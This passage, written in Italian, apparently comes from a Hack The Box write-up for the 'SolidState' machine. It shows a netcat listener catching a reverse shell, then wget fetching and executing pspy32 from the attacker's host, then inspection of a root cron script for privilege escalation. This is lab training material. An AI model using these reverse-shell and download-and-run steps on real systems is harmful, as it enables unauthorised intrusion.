 Otteniamo cosi la shell

```bash
┌──(root㉿kali)-[/home/kali/htb/solidstate]
└─# nc -lnvp 4321
listening on [any] 4321 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.51] 37808
id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

# PRIVESC

Ci scarichiamo pspy sulla macchina targert 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ wget http://10.10.14.9:8000/pspy32
--2023-07-03 16:30:02--  http://10.10.14.9:8000/pspy32
Connecting to 10.10.14.9:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy32’

pspy64                                                     100%[=======================================================================================================================================>]   2.96M  1.04MB/s    in 2.9s

2023-07-03 16:30:05 (1.04 MB/s) - ‘pspy32’ saved [3104768/3104768]
```

Gli diamo i permessi di esecuzione, ed eseguiamo 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ chmod +x pspy32
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./pspy32
```

Ci saltano all'occhio questi processi che vengono eseguiti ogni 3 minuti.

```bash
2023/07/03 16:42:01 CMD: UID=0     PID=13309  | /usr/sbin/CRON -f
2023/07/03 16:42:01 CMD: UID=0     PID=13310  | /usr/sbin/CRON -f
2023/07/03 16:42:01 CMD: UID=0     PID=13311  | /bin/sh -c python /opt/tmp.py
2023/07/03 16:42:02 CMD: UID=0     PID=13312  | sh -c rm -r /tmp/*
2023/07/03 16:42:02 CMD: UID=0     PID=13313  | rm -r /tmp/*
```

Andiamo a vedere cosa contiene 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$
```
